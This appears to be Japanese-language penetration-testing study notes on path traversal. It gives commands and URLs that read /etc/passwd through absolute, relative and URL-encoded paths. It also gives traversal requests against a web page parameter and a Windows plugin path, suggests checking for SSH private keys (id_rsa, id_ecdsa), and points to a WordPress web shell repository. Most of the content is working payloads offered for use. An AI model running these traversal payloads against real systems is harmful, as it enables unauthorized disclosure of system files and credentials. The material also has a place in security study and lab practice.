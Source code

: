 ## ファイルのパスを使用した攻撃手法

### `/etc/passwd`ファイルの表示

#### 絶対パスを使用して表示
```bash
cat /etc/passwd
```
#### 相対パスを使用して表示
```bash
cat ../../../etc/passwd
```
例: 現在のディレクトリが/var/log/の場合、/etc/passwdを表示するには次のようにします：
```bash
cat ../../etc/passwd
```
#### Webアプリケーションでの悪用
パラメータを利用した悪用例
Webアプリケーションでパラメータが悪用される可能性があります。以下はその例です：

- http
```bash
http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd
```
この例では、pageパラメータを利用してサーバーの/etc/passwdファイルにアクセスしています。
#### id_rsaやid_ecdsaファイルの確認
特定のファイルが存在するか確認するために、id_rsaやid_ecdsaなどのファイルをチェックすることが重要です。
出力が正しくフォーマットされない場合
出力が正しく表示されない場合は、curlを使用して内容を確認することができます：
```bash
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd
```
#### Windows環境での悪用
Windows環境では、ドライブ指定が不要なため、以下のように悪用できます：
- http
```bash
http://192.168.221.193:3000/public/plugins/alertlist/../../../../../../../../Users/install.txt
```
#### URLエンコード
パスが表示されない場合
パスが直接表示されない場合は、URLエンコードを使用してパスをエンコードします：

```bash
curl http://192.168.50.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```
#### WordPressの脆弱性
簡単なエクスプロイト
WordPressの脆弱性を利用する簡単なエクスプロイト例です：

GitHubリポジトリ: leonjza/wordpress-shell

